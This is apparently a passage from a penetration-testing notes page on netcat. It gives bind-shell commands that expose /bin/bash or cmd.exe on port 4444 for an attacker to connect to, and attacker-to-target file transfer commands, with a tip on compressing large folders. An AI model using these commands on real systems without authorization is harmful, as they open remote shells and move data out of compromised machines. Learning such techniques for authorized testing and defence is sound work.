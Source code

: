 **On the Target Machine (Listening):**

```sh
nc -lvnp 4444 -e /bin/bash
```

For Windows targets:

```sh
nc.exe -lvnp 4444 -e cmd.exe
```

**On the Attacker's Machine (Connecting):**

```sh
nc <target_ip> 4444
```

#### 3. File Transfer

`netcat` can be used to transfer files between the attacker and the target machine.

**On the Receiving Machine:**

```sh
nc -lvnp 4444 > received_file
```

**On the Sending Machine:**

```sh
nc <receiver_ip> 4444 < file_to_send
```

**and use Watch to watch transferring**

```bash
watch -n 0.1 -d ls -la
```

{% hint style="info" %}
Advanced:\
If we want to download a folder, for example, that contains a lot of data Or Information's  , in reality we will not be able to transfer it in the same way.
{% endhint %}

There are many ways, but I will Just One Way Using Netcat&#x20;

#### 1. Netcat

> You Will Compress The File And Then Transfer The Compressed File Which Holds A Lot Of Data

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>
